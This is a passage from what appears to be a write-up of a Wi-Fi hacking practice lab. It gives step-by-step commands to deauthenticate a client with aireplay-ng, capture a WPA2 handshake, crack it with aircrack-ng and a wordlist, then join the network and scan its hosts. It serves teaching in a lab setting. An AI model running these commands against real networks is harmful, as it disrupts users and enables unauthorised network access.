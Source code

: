 Next I start a new terminal, rename it to **Terminal 4 - Deauthenticate** and I will use this terminal to deauthenticate workstations on the target network. If a workstation has been deauthenticated, it will try to connect to the WiFi network again. In this process we are able to capture a handshake. We can launch a deauthentication attack with aireplay-ng
```bash
sudo aireplay-ng -0 1 -a F0:9F:C2:71:22:12 -c 28:6C:07:6F:F9:44 wlan0mon
```
 
In terminal 3 we can see that a client tried to connect to `wifi-mobile`. We have captured a handshake.
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231017050602.png){: width="700" height="400" }

### Crack handshake for a password
As soon as the handshake has been captured I can start trying to crack it with aircrack-ng.
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b F0:9F:C2:71:22:12 wifi-mobile-01.cap
```
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231017050851.png){: width="700" height="400" }

With this password we can try to connect to the target WiFi network. First I stop the monitor mode.
```bash
sudo airmon-ng stop wlan0mon
```
Next the network manager is restarted again.
```bash
systemctl restart NetworkManager.service
```
Now we can create a configuration file to connect to the target network.
```bash
nano wpa-mobile.conf
```
The content of the `wpa-mobile.conf` looks like this. The psk contains the cracked password.
```
network={
    ssid="wifi-mobile"
    psk="CRACKED-PASSWORD"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}
```
After saving the configuration file we could connect to the network with wpa_supplicant.
```bash
wpa_supplicant -D nl80211 -i wlan0 -c wpa-mobile.conf
```
Then we should ask for an IP address to the DHCP server.
```bash
dhclient wlan0 -v
```
After the IP address has been assigned to our interface we can run arp-scan to identify hosts on the network.
```bash
arp-scan -l -I wlan0
```
